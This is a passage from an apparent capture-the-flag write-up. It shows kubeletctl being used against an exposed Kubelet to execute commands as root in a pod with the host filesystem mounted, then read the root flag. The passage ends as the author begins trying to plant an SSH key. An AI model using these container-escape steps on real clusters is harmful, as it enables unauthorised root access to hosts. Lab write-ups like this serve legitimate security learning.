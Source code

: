 
It is visible from the Kubelet as well:

    
    
    oxdf@hacky$ kubeletctl pods -s 10.10.11.133
    ┌────────────────────────────────────────────────────────────────────────────────┐
    │                                Pods from Kubelet                               │
    ├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤
    │   │ POD                                │ NAMESPACE   │ CONTAINERS              │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 1 │ storage-provisioner                │ kube-system │ storage-provisioner     │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 2 │ coredns-78fcd69978-7dhjv           │ kube-system │ coredns                 │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 3 │ nginx                              │ default     │ nginx                   │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 4 │ 0xdf-pod                           │ default     │ 0xdf-pod                │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    ...[snip]...
    

#### Execute In Pod

Execution via Kubelet works just like it did in the original nginx container:

    
    
    oxdf@hacky$ kubeletctl exec "id" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    uid=0(root) gid=0(root) groups=0(root)
    

But this time the host file system is mounted at `/mnt`:

    
    
    oxdf@hacky$ kubeletctl exec "ls /mnt/" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    bin   home            lib32       media  root  sys  vmlinuz
    boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
    dev   initrd.img.old  libx32      opt    sbin  usr
    etc   lib             lost+found  proc   srv   var
    

I can read `root.txt`:

    
    
    oxdf@hacky$ kubeletctl exec "cat /mnt/root/root.txt" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    98c251ea************************
    

#### Shell Fails

`kubeletctl` doesn’t seem to process command quite like I’m expecting. I tried
creating `/mnt/root/.ssh` and then writing an`authorized_keys` file:

    
    